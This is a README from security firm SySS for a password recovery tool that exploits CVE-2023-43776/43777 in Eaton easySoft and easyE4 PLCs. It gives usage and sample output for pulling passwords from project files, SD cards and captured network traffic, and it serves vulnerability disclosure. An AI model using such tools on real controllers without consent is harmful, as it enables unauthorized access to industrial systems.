 Password recovery easySoft and easyE4 (CVE-2023-43776 and CVE-2023-43777)
====

This script can extract the project password from an easySoft project file as well as calculating password candidates for easyE4 programs stored on an SD card.
In addition, password candidates can also be extracted from a network stream which was recorded during administration, for example.

You can find further details about those security issues in our SySS security advisories SYSS-2023-007, SYSS-2023-008, SYSS-2023-009 and SYSS-2023-010.

Usage
-----

Retrieving the password from a project file:
```
> easy_password_recovery.py PRJ syss_prj_pw_123456.e80
easy/easySoft password recovery tool
     by Manuel Stotz, SySS GmbH

[*] Start password recovery

[*] Found password 123456

[*] Bye!
```

Calculating password candidates for an easyE4 program stored on an SD card:
```
> easy_password_recovery.py SDC syss_prg_pw_222222.prg
easy/easySoft password recovery tool
     by Manuel Stotz, SySS GmbH

[*] Start password recovery

[*] Found password candidate for encoded password 9fd0204: 222222
[*] Found password candidate for encoded password 9fd0204: Q628AW
[*] Found password candidate for encoded password 9fd0204: R0ZUS6

[*] Bye!
```

Calculating password candidates from a network stream intercepted during administration:
```
> easy_password_recovery.py PCAP syss_network_pw_111111.pcapng
easy/easySoft password recovery tool
     by Manuel Stotz, SySS GmbH

[*] Start password recovery

[*] Found password candidate for encoded password 0x7022c848040ac202/0xe22483f6: 111111
[*] Found password candidate for encoded password 0x7022c848040ac202/0xe22483f6: Q3YVP5
[*] Found password candidate for encoded password 0x7022c848040ac202/0xe22483f6: ZCAAQS

[*] Bye!
```

Requirements
------------

* `python 3.x`
* `pyshark`

Demo
----

In this PoC video, the two security issues concerning the password protection of the Eaton easyE4 programmable logic controller (PLC) and the corresponding software easySoft are demonstrated.

[![SySS PoC Video: Eaton easy Password Hacking // Password Recovery for easySoft and easyE4 PLC](/images/eaton_easy_password_hacking_video.jpg)](https://www.youtube.com/watch?v=H4R6J8dNFek "Eaton easy Password Hacking // Password Recovery for easySoft and easyE4 PLC")

Author
----------

Manuel Stotz (SySS GmbH).

Disclaimer
----------

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
